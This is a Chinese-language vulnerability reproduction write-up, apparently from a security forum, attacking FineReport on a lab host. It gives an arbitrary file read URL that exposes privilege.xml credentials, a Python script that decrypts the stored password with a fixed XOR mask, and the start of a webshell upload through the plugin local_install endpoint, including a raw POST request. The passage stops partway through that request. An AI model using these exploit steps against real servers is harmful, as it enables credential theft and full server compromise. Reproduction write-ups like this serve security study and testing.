 漏洞复现
====

1. 任意文件读取漏洞
-----------

访问`http://192.168.6.140:8080/WebReport/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml`，虽然显示空白，但右击查看网页源代码，可以发现账号密码

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/07/attach-11f01912b3a90473e0a44529211a4ffa9a2f482b.png)

使用密码解密脚本（源于<https://mp.weixin.qq.com/s/ae8A8PGJCtr6uS11dRpzcw>）`finereport.py`

```php
cipher = '\_\_\_0061002100780060005500e70018' #密文

PASSWORD\_MASK\_ARRAY = \[19, 78, 10, 15, 100, 213, 43, 23\] #掩码

Password = ""

cipher = cipher\[3:\] #截断三位后

for i in range(int(len(cipher) / 4)):

c1 = int("0x" + cipher\[i \* 4:(i + 1) \* 4\], 16)

c2 = c1 ^ PASSWORD\_MASK\_ARRAY\[i % 8\]

Password = Password + chr(c2)

print (Password)
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/07/attach-9c0d348d210f3a5f58138c46226959358de0e38b.png)  
使用账号密码成功登录并跳转到系统首页`http://192.168.6.140:8080/WebReport/ReportServer?op=fs`

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/07/attach-c8e3ff0ba52e368b43fbd29b1f1f03565e4c57fd.png)

2. 插件上传webshell漏洞
-----------------

### 上传webshell

#### 方式1：local\_install本地安装功能上传webshell

点击管理系统-插件管理板块，选择本地安装，路径为`http://192.168.6.140:8080/WebReport/ReportServer?op=plugin&cmd=local_install`，将`name="file"`修改为 `name="install-from-disk"`进行安装，虽然响应体返回无效zip，但仍是成功上传，并自动解压至`WEB-INF/tmp`目录

```php
POST /WebReport/ReportServer?op=plugin&cmd=local\_install HTTP/1.1

Host: 192.168.6.140:8080

User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Content-Type: multipart/form-data; boundary=---------------------------43396694042741433502589989449

Content-Length: 1014

Origin: http://192.168.6.140:8080

```